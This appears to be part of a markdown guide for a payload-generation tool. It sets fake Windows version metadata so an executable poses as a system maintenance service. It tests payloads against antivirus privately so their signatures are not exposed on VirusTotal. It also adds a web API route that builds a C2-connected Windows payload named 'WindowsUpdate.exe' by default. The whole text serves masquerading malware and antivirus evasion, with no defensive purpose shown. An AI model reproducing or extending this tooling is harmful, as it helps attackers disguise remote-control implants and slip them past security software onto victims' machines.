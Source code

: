 ### Generic/Custom:
```rc
VALUE "CompanyName", "System Services Corporation\0"
VALUE "FileDescription", "Background System Service\0"
VALUE "ProductName", "System Maintenance Tools\0"
VALUE "OriginalFilename", "sysservice.exe\0"
```

---

## 🧪 Testing

### Check Metadata:
```powershell
# PowerShell
Get-Item payload.exe | Select-Object VersionInfo

# Command line
wmic datafile where name="C:\\path\\to\\payload.exe" get Description,Manufacturer,Version
```

### VirusTotal Check:
```bash
# Get hash
sha256sum payload.exe

# Check on VirusTotal
# https://www.virustotal.com/
```

⚠️ **WARNING:** Uploading to VirusTotal makes payload signatures public!

### Private AV Testing:
- Use your own AV software
- Use VMs with snapshots
- Test in isolated environment

---

## 🚀 Integration with Web App

### Modify `/workspace/web_app_real.py`:

```python
@app.route('/api/generate-payload', methods=['POST'])
def generate_payload():
    data = request.json
    
    if data.get('platform') == 'windows' and data.get('trusted', False):
        # Use trusted build script
        config = {
            'c2_host': data.get('bind_host'),
            'c2_port': data.get('bind_port'),
            'payload_name': data.get('filename', 'WindowsUpdate.exe'),
            'use_upx': data.get('compress', False)
        }
        
        result = build_trusted_windows_payload(config)
        return jsonify(result)
```
